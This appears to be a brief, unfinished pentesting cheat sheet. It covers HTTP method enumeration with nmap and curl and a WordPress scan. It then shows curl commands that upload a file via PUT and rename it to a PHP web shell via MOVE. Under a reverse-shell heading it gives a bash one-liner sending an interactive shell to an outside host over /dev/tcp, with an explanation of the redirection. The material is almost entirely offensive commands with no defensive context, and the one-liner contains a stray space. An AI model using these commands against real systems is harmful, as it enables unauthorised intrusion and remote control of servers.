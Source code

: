 # WIP



OPTIONS

nmap --script http-methods --script-args http-methods.url-path=**'/test'** x.x.x.x
curl -vX OPTIONS x.x.x.x/abc

Wordpress

wpscan –url x.x.x.x/blog $ip:3129


You can also upload a file using the PUT method with the curl command:

curl -T **'leetshellz.txt'** **'http://$ip'**

And rename it to an executable file using the MOVE method with the curl command:

curl -X MOVE --header **'Destination:http://$ip/leetshellz.php'** **'http://$ip/leetshellz.txt'**







## Reverse Shell



Exporting shell/bash without Netcat

To get a remote shell:

~~~bash
/bin/bash -i > /dev/tcp/1.2.3.4/1234 0<&1 2 >&1
~~~

> bash interactive mode and redirecting output to `/dev/tcp`
>
> the `0<&1 2>&1 `duplicates the standard output and error file descriptors and connect them to the standard in of the bash